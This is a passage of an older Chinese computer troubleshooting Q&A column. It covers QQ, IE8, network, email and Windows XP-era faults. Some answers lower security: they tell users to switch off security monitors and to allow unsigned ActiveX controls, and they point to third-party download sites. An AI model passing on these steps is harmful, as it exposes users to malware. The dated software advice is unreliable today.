傻博士有话说：很多软件及系统的设置都被保存在系统注册表中，而现今不少安全类工具都有监控注册表的功能，例如360安全卫士、瑞星防火墙等，有时会直接弹出修改注册表是否允许对话框，而有时候可能不会询问，这样就容易导致某些操作不能成功的情况，这时，只要将这类监控工具暂时关闭，等完成操作后再恢复这类监控软件即可。

## 万能五笔输入繁体字出现乱码

问：我用了五年的万能五笔，最近新进一家台企公司，使用的是万能五笔繁体版，在系统中使用时经常出现乱码。请问这该如何解决？

答：这可能是系统中的默认语言没有设置成默认的“中文繁体美式键盘”，如果没有设置成这样就会出现乱码，只要手工设置一下即可解决问题：右击输入法状态栏并选择“设置”，在打开的窗口中选择“常规”选项卡，将“默认输入语言”设置为“中文（繁体）美国键盘”即可。如果没有此选项，请通过下面的“添加”按钮来添加。

## Potplayer 不能自动播放电视剧

问：我最近改用Potplayer播放器，在播放连续剧时它总是不能自动按顺序播放，需要我手动指定才行。请问如何设置才能让它自动按顺序播放？

答：只要右击播放器主窗口并选择快捷菜单中的“选项”命令，在打开的设置窗口中选择“基本”选项卡，取消选择“随机播放”，保存设置即可。

## Windows 7下无法使用CCTVBOX

问：安装的是Windows 7系统，以前在XP系统下使用正常的CCTVBOX现在无法打开了，打开时提示：CCTVplayer Microsoft基础应用程序has stopped working。请问这是什么原因？

答：CCTVBOX正常运行时需要系统自带的媒体播放器支持，假如你卸载了媒体播放器或是媒体播放器程序损坏了，也会导致这样的问题出现，解决方法很简单，只要重新安装媒体播放器或是修复安装即可解决问题。

## 怀疑对方不是我的QQ好友了，怎么确认

问：有一些好友长时间没有聊了，很想知道是否还在对方的好友名单里，但又不好意思直接开口问“我在你QQ好友里吗？”请问傻博士，我该怎么办呢？

答：利用一些附加功能还是可以间接解决问题的。在QQ的聊天窗口右侧，将鼠标移向对方QQ秀，此时窗口上将出现几个按钮，点带有手指的头像按钮，弹出与“对方合影”的窗口，再单击“拍照”按钮，如果你是对方的好友，则可以顺利“合影”。

## 无法使用QQ农场全屏助手

问：我下载了一个名为QQ农场全屏助手的小工具，运行后就弹出list index out of bounds(0)的出错窗口。请问这该如何解决？

答：这可能是软件中的用户存档文件损坏所致，只要将C:\Documents and Settings\Administrator\Application Data\SpiderFarm中的文件删除，然后重新运行应该就正常了。

## 无法安装驱动精灵

问：我的系统是Windows Vista，今天准备安装驱动精灵，在安装时总是提示不能打开要写入的文件，选择“忽略”后虽然安装上了，但是无法运行程序，同样会提示错误。请问这是什么原因？

答：首先检查是不是使用管理员权限安装的，直接右击安装程序并选择“以管理员身份运行”，然后进行安装，如果仍提示，在确保下载的安装文件完好的情况下，检查系统磁盘剩余空间是否不多了，清除一些无用的文件腾出系统磁盘空间后应该能解决问题。

## 系统还原后QQ空间图片显示不正常

问：系统出现问题后，我用之前备份的Ghost镜像恢复了一下，重启后再打开QQ空间，发现空间中的很多地方都显示为一个红叉，例如播放器、导航条等。请问这该如何解决？

答：QQ空间中的这些物件都是Flash文件，不能正常显示，十之八九是系统中没有安装最新版的Flash插件而引起的。解决方法很简单：到http://www.newhua.com/soft/14968.htm下载Flash插件的独立安装程序，重新安装一次即可正常显示了。

傻博士有话说：网页中的图片不能正常显示一般有两类情况：一类就像上面的那样，网页图片实际是Flash格式，一般重装Flash插件即可解决；另一类可能是浏览器设置造成的，以IE8为例，点击菜单“工具→Internet选项”，切换到“高级”，检查“多媒体”下的“显示图片”和“在网页中播放动画”项是否选中，如果没有则勾选它们，确定即可。

## 拨号连接总是卡死

问：我使用的是“宽带我世界”拨号连接软件，每次开机进入系统并拨号时这款软件就会卡死，必须等两三分钟后才能连接上，而在未重新启动之前，样线后重新拨号却又不会出现上述故障。请问这该如何解决？

答：请检查你的本地连接中是否设置了固定IP地址，如果没有请手工指定IP地址（例如将IP设置为：192.168.1.11），再使用默认的子网掩码，设置后重新启动看问题是否解决。系统在安装后默认使用自动获取IP地址的方法，在拨号时系统需要查找IP地址并验证是否与其它IP地址冲突，这会花费一些时间。而如果使用的第三方拨号软件又存在冲突，就很容易出现卡死等现象。

问题来源：http://tinyurl.com/okh69s

## 网络游戏不能登录

问：在单位的局域网中，以前可以正常玩QQ游戏、浩方游戏，但这几天总是不能登录，而浏览网页等都是正常的。请问这是什么原因？

答：先尝试在其他同事的电脑中看能否正常登录QQ游戏，如果也不行，那就极有可能是网管限制了游戏平台的端口。要想解决这类问题，除了让网管重新放行游戏平台外，另外可以试试代理服务器，找代理时可以直接在网上搜索，例如http://www.cnproxy.com就是一个不错的代理服务器信息网，找到一个有效的代理服务器后添加到游戏平台中即可。

问题来源：http://tinyurl.com/q9xoqj

## 阿里旺旺内嵌链接失效

问：之前我的IE访问阿里旺旺一直很顺畅，在一次系统中毒重装后，点击阿里旺旺中的链接没有任何反应了。请问这该如何解决？

答：点击链接没反应，问题一般出在浏览器本身，譬如系统默认浏览器参数设置混乱，浏览器本身损坏等。先使用360安全卫士或超级兔子将IE修复一遍，接下来单击“开始→控制面板→添加或删除程序”，在打开的窗口中选择“设定程序访问和默认值”，查看“Microsoft Windows”下的“浏览器”是否为IE，如果不是，可在下面的“自定义”中设置修改即可。

## 傲游下载器损坏

问：我使用的是傲游V2.5.2.544浏览器，在使用它自带的下载功能时总提示：无法访问下载管理器对象，请确认下载管理器正在运行。覆盖安装也不能解决该问题。请问这该如何解决？

答：首先，按Win+R键调出运行对话框，输入“services.msc”（不含引号）并按回车键打开服务管理器，找到并确保“DCOM服务器进程启动器”服务开启。如果故障未消除，请按下述方法来解决：
如果你的系统是Windows XP SP2/Vista，在运行对话框中输入“regsvr32 c:\windows\system32\atl.dll”命令并按回车键执行；如果是Windows 2000，请在运行对话框中输入执行“regsvr32 c:\winnt\system32\atl.dll”。之后重新启动一下系统即可。

## 彻底解决IE8网页按钮小的问题

问：安装了IE8浏览器后，在设置中取消选择“对网页上的按钮启用视觉样式”后可以解决IE8浏览器中的问题，而在使用傲游或是其他IE内核浏览器时，该故障仍不能解决。请问，如何才能彻底解决IE8网页按钮小的问题？

答：新建一个文本文档，输入以下内容：
INPUT{
font-size: 10pt;
}
TEXTAREA{
font-size: 10pt;
}
BUTTON{
font-size: 10pt;
}
将该文档另存为扩展名为CSS的文件（注意：要保存成utf-8编码），接下来再打开IE浏览器，单击菜单“工具→Internet选项”，选择“常规→辅助功能”，勾选“使用样式表编排文档格式”选项，单击“浏览”按钮将上面保存的CSS文件添加进来，最后单击“确定”保存设置即可。

## IE8 无法安装 CCTV 插件

问：我使用IE8浏览器，在打开的CCTV网站中准备安装直播插件，但IE总是提示内存不能为读而无法安装。请问这该如何解决？

答：这可能是因为系统中安装了插件拦截工具，阻止了CCTV直播插件的安装，可以先关闭插件拦截软件后再试。此外，请检查IE8自身的插件拦截功能。通常情况下，在打开需要安装插件的页面时，在浏览器上端会出现一个黄色提示条，只要右击该提示条并选择“允许安装”即可。也可以到http://tlive.cctv.com/ieocx/CCTVRegOcx.exe下载插件后在本机安装。还有一种方法，就是CCTV推出了客户端软件，可以直接从http://tlive.cctv.com/cctvbox/cctvbox.exe下载CCTVBOX程序，安装后可以直接通过此客户端程序来观看CCTV各个频道的节目了。

傻博士有话说：其实还有很多网站，如网上银行、在线购物、在线杀毒等，都需要安装客户端插件后才能正常工作，很容易就会遇到上述问题。解决方法一般有：
- 查看浏览器是否有拦截提示，如果有，选择“允许”放行即可；
- 查看是否有第三方工具的拦截提示，如果有也请按提示选择放行；
- 这类在线网站通常都提供插件下载安装版，下载后本地安装往往能快速解决问题。

## IE 总是打开酷站 189

问：最近不知何故，每次打开IE后总是首先打开酷站189 (www.kz189.com)，而查看IE首页设置，显示的依然是我之前设置的Google。这是怎么回事？

答：按Win+R键打开运行对话框，输入regedit并按回车键，打开注册表编辑器，依次定位到[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{871C5380-42A0-1069-A2EA-08002B30309D}\shell\OpenHomePage\Command]，查看该键下面是否有www.kz189.com这项，有则直接删除即可。对于怕手工修改出错的新手来说，可以安装使用Windows清理助手、超级兔子等软件，它们都提供了IE浏览器修复功能。

## 下载文件快但玩游戏慢

问：我安装的是4M的电信宽带，在下载文件时速度很快，可以达到400K左右的速度，而在玩梦幻西游时却非常卡。而以前使用1M的宽带玩梦幻西游都是很顺畅的。请问这是什么原因？

答：既然下载速度不慢，可见问题不在于网络线路方面。可以考虑从以下两个方面着手：
- 检查游戏是否使用了代理服务器，有可能由于代理服务器本身的速度慢而导致游戏变慢，从而出现卡的现象，试着取消代理服务器设置看问题能否解决。
- 检查显卡驱动程序是否正确安装：右击“我的电脑”，选择“管理”→“设备管理器”，在右侧窗口“显示卡”中可以看到显卡驱动的版本，检查一下是否为最新的驱动，如果不是，可考虑安装新版的显卡驱动试试。
- 检查系统中安装的杀毒软件或防火墙是否放行了游戏，如果没有，直接将游戏软件添加到“例外”列表中即可。

## 无线上网不正常

问：笔记本使用无线上网，QQ等软件可以正常使用，但浏览器却无法打开任何网页。请问这是什么原因？

答：出现这种问题后，直接检测网卡本地连接的DNS是否设置正确，如果设置了一个无效的DNS服务器，就会出现无法打开网页的情况。如果不知道当地的DNS服务器，可以直接设置为自动搜索模式：在控制面板中的“网络连接”中右击“本地连接”图标，选择“属性”，在打开的设置窗口中找到“Internet协议 (TCP/IP)”项并双击，然后直接勾选“自动获得DNS服务器地址”项，最后单击“确定”按钮即可。

## IE 浏览器的自动完成功能失效

问：IE已开启自动完成功能，但在安装360安全卫士后出现无法正常使用自动完成功能的现象。请问这该如何解决？

答：这可能是因为在360安全卫士中关闭了自动完成功能而在IE浏览器中却没有同步显示参数设置而导致的，只要在360安全卫士中直接修复一遍IE浏览器即可解决问题：选择主窗口中的“高级”按钮，选择“修复IE”，点击“全选”，最后单击“立即修复”按钮进行修复即可。

## QQ 头像处总显示 QQ 号

问：我使用的是QQ2008，使用了QQPlus3.0自定义皮肤，之后发现头像处总是自动显示QQ号码，更改了昵称后重新登录依然如故。请问这该如何解决？

答：如果你不想升级到最新版QQ2009，可以通过重新定义QQ皮肤来解决问题，或者直接将皮肤还原为默认皮肤即可。很多QQ皮肤设计不完美，应用后经常会出现这方面或那方面的问题，只要换成默认的经典皮肤一般都可以修复。

## 无法找到 QQ 群共享

问：我下载安装了绿色版的QQ2009SP1，使用后总是找不到群共享图标，请问如何才能进入群共享？

答：这肯定是在QQ设置中关闭了QQ网盘功能，当关闭该功能后不仅QQ网盘不能使用，同时还会涉及QQ群共享功能不能使用，只要重新将QQ网盘开启即可解决问题：右击QQ主面板，选择“面板管理器”，在打开的设置窗口中直接勾选“网络硬盘”项，保存设置即可。此外，如果你下载的是精简版QQ，已经将相关功能组件精简掉了，只有重新下载安装完整版的QQ程序才能正常使用。

## 阿里旺旺聊天看不到消息记录

问：用阿里旺旺聊天，可以发送消息，但是发送出去的消息自己看不到，对方发来的消息也看不到，只能听到消息提示音，消息窗口一片空白，同时还会启动浏览器并试图打开alires:///MsgHistory/MsgHistory.htm?cssname=default。请问这是什么故障？

答：这是由于当前系统中的IE临时文件夹路径无效所致。比如用Ramdisk之类的工具虚拟出内存硬盘，并且将系统临时文件夹、IE临时文件夹设置到这个虚拟硬盘中，而之后由于其他原因导致这个虚拟硬盘消失，这时就会产生旺旺不能正常看消息的现象。我们只要重新指定IE临时文件夹路径即可解决：打开IE浏览器（以IE7为例）并单击菜单“工具→Internet选项”，选择“常规”选项卡，单击“浏览历史记录”后面的“设置”按钮，在打开的窗口中即可重新指定临时文件夹路径了。

傻博士有话说：Ramdisk设置内存盘后又取消所导致的错误，同样可能会出现在其他软件上面，比如导致WinRAR压缩多个文件时就会出现“无法打开\RarSLS57.0921”的错误提示。因为WinRAR在进行压缩和解压缩时，会先在系统临时文件夹中进行操作，解决方法：在WinRAR的“选项→设置”中选择“路径”选项卡，重新指定“临时文件解压的文件夹”的位置即可。

问题来源：http://bbs.cfan.com.cn/thread-895318-1-6.html

## 注册校内网收不到邮件

问：我在校内网注册了一个账号，最后一步时系统提示到我注册时填写的邮箱中打开激活邮件完成注册。但我打开注册时填写的TOM免费邮箱却没有看到激活邮件，再注册时又提示此邮箱已经被注册了。请问出现这种情况后怎么办？

答：这可能是邮箱服务器进行了过滤操作，出现这种情况后可试试以下解决方法：使用此邮箱编写一封任意内容的邮件，然后将该邮件发送到hi@xiaonei.com这个地址，几分钟后应该可以使用注册的账号及密码登录校内网了。

## 局域网为何不能访问

问：我安装的是联想OEM版Windows XP SP3，系统中仅安装了常用软件，如QQ、McAfee等，刚开机可以访问局域网，然后过一段时间（长短不等）即无法访问。在运行中直接输入“\192.168.x.x”则提示网络资源不可用。查询服务，发现Server服务被关闭，启动后仍然无效。请问这该如何解决？

答：这极有可能是ARP攻击所致，出现这种问题后解决思路如下：先扫描系统中是否有病毒或是木马，特别是ARP类病毒，将McAfee 8.0病毒库更新然后再查杀。另外，建议再安装360安全卫士及其中的ARP专杀工具，对系统进行全面清杀操作。接下来再检查系统更新，很多网络不能访问，问题都出在系统自身的缺陷上，升级补丁后一般可以解决问题。

## 为何找不到 TCP/IP 协议项

问：我的本地连接属性中找不到TCP/IP项，现在想修改一下本地局域网IP地址都无法操作，请问这是什么原因？

答：首先，你试试通过安装协议能否将TCP/IP项添加进去：在控制面板中打开“网络连接”，右击“本地连接”并选择“属性”项，在“常规”选项卡中单击“安装”，正常情况下可以在打开的列表中选择TCP/IP项进行安装。如果找不到TCP/IP项，有可能是系统中的相关文件损坏所致，可将系统安装光盘放到光驱中，然后按Win+R键打开运行对话框，输入“sfc /scannow”（不含引号），按回车键执行后可以重新从安装光盘中恢复系统中已损坏或是已删除的系统文件。修复完毕，重启系统后再按照上面的方法重装该协议即可。

## 突破远程桌面连接限制

问：我安装的是Windows XP SP3系统，使用远程桌面连接功能连接单位服务器，总是出现反馈信息：超过最大用户数。无法成功连接到远程电脑。请问，如何直接突破连接数限制而连接到远程电脑中？

答：这种情况下可以通过mstsc命令并配合/admin(Windows XP SP3系统)或console(Windows XP SP2系统)这两个参数来强制登录。

## 宽带连接为何很慢

问：每次开机后要等3分钟以上才能拨号上网，之前拨号总是不成功，ADSL猫上的LINK灯也是3分钟后才会开始闪烁，当该灯常亮后就可以拨号了。请问这是什么原因？

答：LINK灯需要3分钟后才能常亮，可以排除电脑及操作系统方面的问题。通常情况下，只要接通ADSL猫电源，LINK灯应该就会立即点亮。你遇到的这个问题，请检查猫的质量或者直接联系ADSL运营商，让他们来检测线路及猫设备（猫设备出现问题的可能性较大）。

问题来源：http://bbs.cfan.com.cn/thread-921072-1-2.html

## 农行网银无法支付

问：在用网银支付时总提示不能验证发行者NetSign.cab，无法使用。请问这该如何解决？

答：NetSign.cab是农行的一个客户端ActiveX插件，它被IE浏览器阻止是导致无法使用网银的主要原因。解决方法：单击IE菜单“工具→Internet选项”，选择“安全”选项卡，单击“自定义级别”按钮，在打开的窗口列表中找到“ActiveX控件和插件”项，将“下载未签名的ActiveX控件”设置为“提示”，再将其他几项ActiveX插件控制参数均设置为“提示”。保存设置后再次运行支付，在弹出的提示窗口选择“是”即可。

傻博士有话说：很多交易类网站都是通过在客户电脑中安装ActiveX插件来工作的，假如不安装或被系统防火墙拦截，相应的网站功能就不能正常使用，这时可用上述方法解决。而如Firefox之类非IE内核浏览器，因为不支持ActiveX插件，在浏览淘宝、网上银行时，也会出现网站不正常的现象，这时只能切换到IE中操作，或者为Firefox安装支持IE的插件来解决。

## 网址自动重定向

问：在IE中输入Hao123网址，按回车键后却打开了一个叫木板网的页面，但使用傲游、Firefox等浏览器却正常。请问这是什么原因？

答：这可能是IE浏览器被镜像劫持了，当输入某个特定的网址后自动被劫持到另一个网址。如果安装了Windows清理助手、360安全卫士等工具，可以先修复一下IE，然后再检查C:\WINDOWS\system32\drivers\etc目录下的hosts文件，将与Hao123相关的项删除并保存该文件。

## Outlook 下载邮件后总是将源邮件删除

问：我的Gmail邮箱为常用邮箱，使用发邮件的方式在邮箱中保存了一些重要的文件数据。但用Outlook收取邮件时总是自动将邮箱中的邮件收取下来并将邮箱中的源邮件删除。请问如何设置能解决此问题？

答：这个问题可以通过两种方法来解决：
- 直接在Outlook中设置保留邮箱中的备份：打开Gmail邮箱属性设置，在电子邮件属性设置窗口中选择“高级”选项卡，勾选“在服务器上保留邮件副本”选项，最后单击“确定”保存设置即可。
- 在Gmail中新建邮件规则，给自己发送的邮件创建一个规则，收件人、发件人都是自己的Gmail邮箱（如果使用自己另外的邮箱发邮件到Gmail，可再将其添加到发件人列表中），然后再直接设置规则为“标记为已读”即可。

## 无法安装 Windows Live Messenger

问：下载了最新版的Windows Live Messenger，安装时系统却总提示最新版本已经安装，但在硬盘中却找不到这个目录。请问这该如何解决？

答：这可能是之前安装的Windows Live Messenger没有正确卸载而残留部分文件所致。可从http://work.newhua.com/cfan/200915/ZapMessenger.zip处下载使用ZapMessenger，即可将系统中残留的MSN文件卸载干净，然后再重新安装即可。

## 总是发出乱码邮件

问：用Outlook 2007发送的邮件，朋友收到后打开时总显示乱码，发到自己的邮箱收到后也显示乱码，请问这是什么原因？

答：这肯定是Outlook中的编码设置参数不正常而导致的。请打开Outlook，单击菜单“工具→选项”，选择“邮件格式”选项卡，单击“国际选项”按钮，在打开的窗口中将“对于待发邮件首选此编码”设置为“简体中文GB2312”，保存设置即可。

此外，对于接收者来说，也可以在打开邮件后重新指定邮件编码（一般只要设置为GB2312或UTF-8）来解决问题。如果这些都不能解决问题，还可以将邮件内容保存为单独的TXT格式文档，作为附件发送给收件人来变通地解决问题。

## 下载文件总是下载不完全

问：使用FlashFXP从FTP服务器中下载720P电影时，总是下载到3.99GB时就无法继续下载，电影文件总大小为4.39GB。无法下载时报告磁盘满，而我的磁盘剩余空间还很大。请问这是什么原因？

答：这主要是因为你使用的是FAT32格式磁盘分区来保存下载的文件而引起的，FAT32格式磁盘最高只支持4GB的单个文件，只要将下载的文件保存到NTFS格式磁盘分区中即可。假如没有多余的NTFS格式磁盘，可使用“convert volume /fs:ntfs”命令进行转换，将硬盘格式转换为NTFS格式即可。注意：系统分区不能转换，容易导致系统故障。有重要文件的分区也请不要尝试，会导致重要数据丢失。

## QQ、TM 总是假死

问：我使用的是Windows 2008系统，不管使用QQ2009还是TM最新版，总是频繁地出现假死现象，重新安装也不能解决问题。请问这是什么原因？

答：现在QQ软件越做越大，功能也越来越多，整体速度下降是必然的，出现假死现象后，可以按下述思路来排除：将历史聊天记录清理一遍，如果聊天记录内容过多，很容易导致假死现象（聊天记录有重要内容的，建议先导出保存）。再将QQ安装目录下对应于自己QQ号的文件夹下的Image、CustomFaceRecv文件夹清理一遍，这两个文件夹分别保存图片及收到的自定义表情图片。还有就是检查自己使用的输入法是否有问题，更换一种输入法往往也可以解决因为输入法与QQ冲突而造成的假死。不少朋友都遇到过搜狗输入法与QQ冲突而造成假死的现象，更换其他输入法解决了问题。最后，请将“我的文档”中与QQ、Tencent相关的文件及文件夹删除掉，不少假死现象与此亦有关。

傻博士有话说：不少朋友添加了多个QQ群，之后又在QQ群中设置成不显示群消息，但是群中的消息还是被保存在消息记录中，时间长了，消息数据库可能达到数百兆，肯定会影响QQ运行的效率，导致假死也成了家常便饭。除了QQ、TM之外，很多网络软件也经常会出现假死现象。例如，下载软件、在线播放器软件、浏览器等。这些现象，多数是因为系统资源不足或是网速比较慢而导致的，根据不同的情况做相应的调整即可解决问题。譬如在使用浏览器打开某个网页时出现假死现象，可以先关闭其他正在占用大量带宽的软件（例如BT下载），然后再重新刷新页面即可。如果出现假死后无法关闭或是进行其他操作，可以临时打开任务管理器，在进程列表中暂时终止该程序对应的进程，然后重新启动，往往可以解决问题。

## 打开网址变成下载文件

问：有时候在IE或是Firefox浏览器中输入一个网址并打开时，会变成下载文件，直接调用迅雷下载该页面。假如没有安装迅雷的话，在IE中打开时会弹出另存为对话框。请问这是什么原因？

答：尝试一下是不是每个网页都这样，假如是部分网页打开时变成下载，请注意网址最后是否有类似文件扩展名的字符（例如.js、.asp等），然后在控制面板中打开文件夹选项，在“文件类型”列表中找到与这类扩展名相关项，单击“高级”按钮，在打开的窗口中选择“打开”项，直接将其删除。对于网址中的这些类似扩展名的字符，是无须指定某个软件来打开的。

## FLV 下载后总是不完整

问：我从新浪视频网站下载的一些FLV格式的视频，总是不完整，有一部分没有了。请问这是什么原因？

答：为了播放更流畅，新浪将一些大视频文件分割成多个小视频文件，而你下载时可能只下载了其中的一个视频文件，播放时自然显示不完整。只要使用一些嗅探器工具分析（例如：http://www.flvcd.com/），得出每个片断的下载地址后再将它们下载下来，最后再使用视频合并工具进行合并即可。

## 播放网页媒体没声音

问：本地音乐播放时声音正常，但播放网页上的在线媒体时只能看到图像却没声音。请问这是什么原因？

答：这可能是浏览器中禁用了多媒体声音而导致的，假如使用的是IE浏览器（包括IE内核浏览器），请单击菜单“工具→Internet选项”，在打开的设置窗口中选择“高级”选项卡，在列表中找到“在网页中播放声音”项并将其选中，保存设置即可。假如使用的是非IE内核浏览器，请在浏览器的选项中进行类似设置。此外，一些浏览器安装的插件程序也有可能会阻止在线媒体的正常播放，需要留意。

## 无法安装 QQ2009

问：我在安装QQ2009时，先是看到卸载旧版本的提示，稍后又显示“无法访问Windows安装服务”信息。请问这是什么原因？

答：这是因为你的系统中之前安装了QQ的旧版本，在安装QQ2009时先要将旧版本的程序卸载掉，显示“无法访问Windows安装服务”信息，则说明系统中负责程序安装的服务出现了问题，主要就是Windows Installer服务，一般先卸载，再安装Windows Installer（下载地址：http://www.onlinedown.net/soft/12666.htm）即可。最后再打开服务管理器（按Win+R键打开运行对话框，输入“services.msc”并按回车键），找到Windows Installer服务将其开启即可解决问题。

## IE 总是不能使用代理

问：我使用的是Windows XP SP3自带的IE浏览器上网，无法设置代理服务器，在注册表中将proxyenable项设置为1后并设置代理服务器上网也不行，回头再看该注册表键值又变回0。请问这是什么原因？

答：这可能是在组策略中禁止了IE浏览器的代理服务器功能，可以通过组策略重新放行IE浏览器的代理服务器功能选项即可：按Win+R键打开运行对话框，输入“gpedit.msc”（不含外侧引号）并回车，在打开的窗口中依次展开“用户配置→管理模板→Windows Components→Internet Explorer→浏览器菜单”，在右侧窗口中找到并双击“工具”菜单：禁用“Internet选项...”菜单项，将其设置为“已禁用”即可。

## 笔记本无法搜索到无线网络

问：一台内置了无线网卡的笔记本电脑，无线网卡驱动程序已正常安装，但在安装了无线路由器后，其他电脑可以正常搜索到无线网络信号，但这台电脑就是收不到。请问这是什么原因？

答：据你描述，十之八九是这台笔记本电脑的无线开关没有打开所致。有些笔记本电脑单独提供了无线开关，只要将其拨到“开”（或“ON”）的位置即可；有的则是通过Fn键+某个功能键组合实现无线开关，例如华硕A6R笔记本电脑的无线开关为“Fn+F2”，只要按此组合键即可开或关掉无线网络了。

傻博士有话说：如果无线开关打开后依然找不到网络，则要从距离远近、是否有障碍物阻隔、是否有强辐射源扰乱信号等其他方面来查找原因。不过，通常的家用无线网络可以在几间屋子里覆盖信号，不会受到墙壁、门窗的阻隔，所以应着重查一下辐射源。另外，如果周围的无线网络较多，在搜索到无线网络信号后，系统会自动选用一个默认的无线源进行连接，有可能导致连接不上，这时需要手工指定无线源。

## 傲游的拖拽搜索功能失效

问：我安装的是V2.XX版本的傲游浏览器，在页面中选中内容使用鼠标拖拽进行搜索后，在打开的页面中什么也没显示。请问这是什么原因？

答：这可能是你的傲游浏览器的拖拽搜索引擎没有设置正确所致，请单击菜单“工具→傲游设置中心”，选择“搜索”，在右侧页面中勾选“使用服务列表提供的搜索引擎”项，点击“应用”保存设置后重新启动傲游即可。如果问题仍没有解决，可以在上面的设置页面中点击“添加项目”，然后将自己喜欢用的搜索引擎添加进去，添加时请参考下面的格式：

百度： http://www.baidu.com/s?tn=plugin1&wd=%s
Google： http://www.google.com/search?hl=&q=%s
搜狗： http://www.sogou.com/web?pid=&query=%s
SOSO 搜搜： http://www.soso.com/q?w=%s
Live Search： http://search.live.com/results.aspx?mkt=&FORM=LIVSOP&q=%s
雅虎搜索： http://search.cn.yahoo.com/search?ei=UTF-8&source=ysearch_web_hp_button&z=&p=%s

注意：如果设置了多个搜索引擎，只有“别名”被设置为“*”的为默认搜索引擎。

问题来源：http://bbs.cfan.com.cn/thread-895318-1-6.html http://bbs.cfan.com.cn/thread-921072-1-2.html为何总是打开网页版旺旺

问：在淘宝网购物时，点击聊天链接后，总是启动网页版阿里旺旺，而我的系统中已经安装了软件版阿里旺旺。请问这是什么原因？
答：这可能是浏览器中的插件管理器禁用了阿里旺旺插件，导致浏览器认为系统中没有安装阿里旺旺而导致的。解决方法很简单，只要打开IE浏览器，点击菜单“工具→Internet选项”，在打开的设置窗口中选择“程序”选项卡，单击“管理加载项”按钮，在打开的列表中找到“WangWang Class”项并将其启用即可。

打开新标签速度巨慢

问：我使用的是联想笔记本电脑（ThinkPad X61），安装的是Windows XP SP3，在将IE升级到IE8后，打开新标签时速度很慢，升级到IE8时情况依旧。而在单位的台式机中则没有此现象。请问如何解决？
答：你安装的可能是联想预装的系统，联想预装系统中加载了联想的IE浏览器插件“CPwmeBrowserHelper Object”，该插件加载后就会导致上述现象的出现。解决方法就简单了，只要在IE浏览器的加载项中找到“CPwmeBrowserHelper Object”项并直接将其禁用即可。

无法打开QQ相关网页

问：我的系统可以正常登录QQ，但是QQ相关网页却无法打开，提示“找不到服务器或DNS错误”。请问这是什么原因？
答：这可能是你的DNS服务器设置不当或是设置的DNS服务器当前工作状态不正常所致，只要更换一个DNS服务器即可解决。打开网络连接，找到“本地连接”并右击，选择“属性”，在打开的窗口中选择“Internet协议（TCP/IP）”项，在打开的窗口中更换一个DNS服务器即可。或者，也可以设置为自动获取DNS服务器。

无法备份迅雷的下载列表

问：以前使用旧版迅雷时，直接将Profiles目录备份好，之后只要再覆盖一次即可。现在升级到V5.9后无法通过此方法备份了。请问，如何才能备份迅雷的下载列表？
答：新版迅雷的下载文件列表已经不在Profiles目录中，而是在迅雷安装目录下的“Program”的“ThunderStorage.dat”文件中，所以需要备份此文件，在想恢复时直接使用之前备份的文件覆盖一次即可。

无法设置网络连接

问：我在添加拨号连接时，用户名和密码项总是显示灰色不可用。请问该如何解决？
答：请按Win+R键，输入“services.msc”并按回车键，在打开的服务管理器中找到“Remote Access Connection Manager”服务，如果该服务禁用了，请直接重启该服务。此外，还可以直接从http://www.onlinedown.net/soft/35272.htm下载Winsockfix小工具来修复、解决。

MSN不能最小化到托盘

问：我用的是Windows 7系统，安装了Windows Live Messenger（即MSN）最新版后发现它总是不能被最小化到系统托盘区中。这该怎么办？
答：这是Windows Live Messenger本身缺陷所造成，目前还没有推出对应于Windows 7系统的程序版本。针对目前版本来说，可以直接右击Live Messenger程序并选择“兼容性疑难解答”，然后按照向导提示使用兼容低版本系统的模式，启动后就可以正常最小化到系统托盘区中了。

傻博士有话说：很多应用程序都出现过兼容性问题，通常都是在低版本系统中可以正常运行的程序，当换成高版本操作系统后出现无法运行或是工作不正常的情况（例如界面显示不完整、无法最小化到系统托盘、不能正常使用相关功能等）。这主要是程序开发时没有根据新系统的特性事先给出解决方案。出现这类情况时，通常都可以通过兼容模式来解决问题，当然，最彻底的解决方法就是检查是否有新版本并将软件更新到最新。

浏览器提示加载项禁用

问：打开IE浏览器后总是提示：IE正在禁用加载项的状态下运行。网页中的视频、图片几乎都不能显示。请问这该如何解决？
答：首先检查IE自身的插件管理功能，重新启用被禁用的插件。单击“工具→Internet选项”，在打开的窗口中选择“程序”选项卡，单击“管理加载项”按钮，在打开的窗口中选择“显示”下面的“所有加载项”，在右侧窗口中检查哪些插件被禁用，特别是“Adobe Systems Incorporated”组中的插件是否被禁用。如果禁用请一一放行。这类插件主要是用来播放网页中的动画或是视频的，被禁用的话就会导致无法播放。此外，再检查系统中是否安装了插件屏蔽类工具，如果有，请关闭或是通过设置放行被屏蔽的插件项即可。

IE搜索栏不能输入

问：IE地址栏可以正常输入内容，但是搜索栏却不能输入任何字符。请问这该如何解决？
答：出现这类问题，直接使用超级兔子的IE修复功能对IE修复一遍，重新启动IE即可解决问题。此外，例如IE首页被绑定，参数设置项不能使用等小故障都可以通过修复工具来解决。

阿里旺旺内嵌链接失效

问：我通常都是直接在阿里旺旺中点击链接到淘宝网的按钮来打开淘宝网的，但是中毒重装系统后这些链接都失效了，点击无任何反应。请问这是什么原因？
答：这可能是系统中的默认浏览器设置参数不正确所致。系统找不到默认浏览器，当点击链接后当然就不会出现任何反应了。按下面思路来解决：在控制面板中，打开“添加或删除程序”项，在打开的设置窗口中单击“设定程序访问和默认值”项，在右侧窗口中的“自定义”设置区域直接将IE浏览器设置为默认浏览器，重新启动阿里旺旺后应该可以解决问题。

支付宝提示证书过期

问：前几天还可以正常付款，但在淘宝购买一双鞋并在付款时，支付宝提示证书过期了。请问这是怎么回事？
答：支付宝的数字证书有效期一般是一年零十天左右，在数字证书到期前一个月系统便会提示更新数字证书。如果没有及时更新数字证书，当证书失效时可以按下面方法来解决。
情况一：如果本机之前安装过数字证书，直接登录支付宝，系统提示数字证书过期后会有更新提示，直接更新，最后再做好备份即可。
情况二：如果本机之前没有安装过数字证书，需要到有证书的电脑上进行更新，也可以先申请注销：登录支付宝，点击“安全中心→安全检测→管理数字证书→注销证书”，接下来重新申请数字证书并进行备份即可。注意：证书过期后原有的备份文件同样失效，不能再用于导入，更新证书后需要重新备份。

升级到IE8后世界之窗变慢

问：我将IE升级到IE8后，原先的世界之窗浏览器打开网页的速度变得很慢，更换GreenBrowser浏览器后亦如此，而IE8本身浏览速度正常。请问这是什么原因？
答：这是因为IE8浏览器的并发连接数可以达到10左右，而其他使用IE内核的浏览器并没有同步提升并发连接数而导致的。解决方法：
